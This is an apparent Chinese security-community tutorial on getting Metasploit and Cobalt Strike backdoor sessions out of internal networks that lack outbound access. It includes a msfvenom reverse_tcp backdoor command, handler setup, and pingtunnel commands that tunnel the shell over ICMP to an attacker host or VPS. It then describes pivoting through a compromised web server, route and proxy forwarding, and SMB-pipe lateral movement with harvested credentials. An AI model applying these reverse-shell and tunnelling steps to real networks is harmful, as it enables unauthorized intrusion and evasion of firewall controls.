# 内网不出网上线学习研究 - 先知社区

内网不出网上线学习研究

- - -

# 引言

### 在网络安全领域，内网不出网是一个常见问题，它可能由于网络协议封杀或者内网完全无网络连接造成。本文将介绍隧道技术和代理技术，以及如何在不同情况下应用这些技术来解决问题。

#### 在解决内网不出网的时候我们首先应该要了解隧道技术和代理技术

### 隧道技术

隧道技术是一种在网络中创建私密通道以在不安全或公共网络上安全传输数据的方法。它允许将一种网络协议的数据封装在另一种网络协议的数据包中传输。

### 代理技术

-   代理是一种在网络中充当中间人的服务器或服务。它接收来自客户端的请求，并代表客户端向其他服务器或资源发出请求。代理服务器接收到请求后，可以修改请求或者在返回给客户端之前对其进行处理。

### 代理技术和隧道技术的区别

代理和隧道技术都可以用于安全性和访问控制，但它们的主要区别在于其作用和实现方式。代理更多地用于代表客户端请求资源，而隧道技术用于在网络中创建安全通道传输数据。

#### 所以我们在内网协议被封杀的时候使用隧道技术。网络通信不通的时候使用代理技术

# 案例分析：

## 1.协议被封杀

今天列举的是 tcp 协议被封杀导致无法出网

#### msf 绕过

首先生成后门

```plain
msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=444 -f exe > msf.exe
```

然后 msf 启动监听，监听 333 端口

```plain
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```

kali 使用 pingtunnel 工具开启隧道服务：./pingtunnel -type server

windows 开启隧道将本地 444 端口 icmp 协议数据转发到攻击机 IP 的 333 端口上

```plain
pingtunnel.exe -type client -l 127.0.0.1:444 -s 192.168.4.1(kali) -t 192.168.4.1:333 -tcp 1 -noprint 1 -nolog 1
```

#### CS 绕过

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228122322-1bf786a4-d5f1-1.png)

然后使用 icmp1 生成后门程序

kali 使用 pingtunnel 工具开启隧道服务：./pingtunnel -type server

windows 开启隧道将本地 5555 端口 icmp 协议数据转发到攻击机 IP 的 6666 端口上

```plain
pingtunnel.exe -type client -l 127.0.0.1:5555 -s 192.168.4.1(kali) -t vps 地址:6666 -tcp 1 -noprint 1 -nolog 1
```

## 2.完全没有网络

内网环境

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228122340-267a6c4a-d5f1-1.png)

### CS 上线

第一步；先获取到 web 主机的权限（就是常规的 web 渗透拿到主机权限，这里就不演示了）

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228122406-35bf2178-d5f1-1.png)

第二步：vps 主机无法直接跟用户主机进行通讯，所以我们在 win7 上生成一个本地后门，然后通过 web 服务器进行上线

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228122456-53e73b90-d5f1-1.png)

将 2222 的监听器生成后门程序，上传至用户主机执行

然后进 web 服务器会话交换，连接用户主机的 2222 端口

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228122536-6becd1e6-d5f1-1.png)

主机成功上线

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228122556-7759cf20-d5f1-1.png)

### MSF 上线

同样要先拿到 web 服务器的权限，然后添加路由

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228122612-811696b0-d5f1-1.png)

生成后门，后门的连接地址 0.0.0.0 或 127.0.0.1 都行

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228122621-86693960-d5f1-1.png)

将后门上传到用户主机执行

kali 开启监听

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228122640-9201ad02-d5f1-1.png)

成功上线

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228122648-96ac87d2-d5f1-1.png)

三层内网也是一样的  
先添加路由

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228122704-9ff369fa-d5f1-1.png)

然后开启代理转发

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228122711-a4248e00-d5f1-1.png)

设置代理

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228122721-aa370f84-d5f1-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228122731-b03aea54-d5f1-1.png)

## 主机不出网，并且还有防火墙限制的情况怎么上线

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228122743-b7a31564-d5f1-1.png)

这就要先说下正向连接和反向连接了

### 正向连接

##### 作用：正向连接是指从客户端到服务器或目标系统的连接。在网络安全中，正向连接是常见的、允许的连接方式，允许用户或系统通过网络与其他系统或服务进行通信和交互。

##### 使用场景：正向连接是网络中常见的连接形式，例如，当用户通过浏览器连接到网站、设备连接到服务器或者两个设备之间建立直接通信时，都属于正向连接。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228122759-c09a3e72-d5f1-1.png)

### 反向连接

##### 作用：反向连接是指从服务器或目标系统到客户端或其他系统的连接。在网络安全中，反向连接可能是不寻常的，因为它可以表示潜在的安全风险，如恶意软件或攻击者通过网络建立的连接。

##### 使用场景：反向连接可能由恶意软件、僵尸网络（botnets）或黑客攻击中的后门程序使用。这种连接方式允许攻击者在远程控制系统或服务器，进行未经授权的操作或数据传输，而不被目标系统的防御机制察觉。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228122805-c4b8ed3c-d5f1-1.png)

### 代理上线

知道了正向和反向连接我们开始绕过防火墙上线

windows\_server2008 和 win7 的上线就按上面说的方法正常上线就行，接下来上线 win10

因为正向连接受到防火墙的限制，我们尝试反向连接，但是 win10 目前只有 win7 可以通信，所以我们用 win7 来转发上线

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228122830-d33182d4-d5f1-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228122839-d8fbfeb0-d5f1-1.png)

随后就会生成一个反向连接的监听器，将监听器上传到 win10 执行

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228124152-b1841442-d5f3-1.png)

执行后门，成功上线

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228124411-047c0704-d5f4-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228123130-3eafac66-d5f2-1.png)

### SMB 管道

接下来 windows\_server2016 上线  
因为 win10 做了入站规则，所以反向连接给 win10，win10 就会拒绝  
直接选择正向硬刚防火墙正向规则，因为正向规则只允许访问打印机，也就是 smb 服务，文件共享协议  
我们建立一个 smb 管道来进行上线

新建一个 smb 管道

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228123204-52d319b2-d5f2-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228124521-2dc974de-d5f4-1.png)

使用可通信主机进行端口扫描

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228123240-68432012-d5f2-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228123255-712f0394-d5f2-1.png)

找到扫描出来的主机

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228123351-92cf94aa-d5f2-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228124618-501053c8-d5f4-1.png)

账号密码都是前期收集到的信息。注：==没有账号密码无法利用==

监听器选择刚生成的 smb 管道，会话选择 win10（能通信的网段主机）的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228124659-684c7912-d5f4-1.png)

成功上线
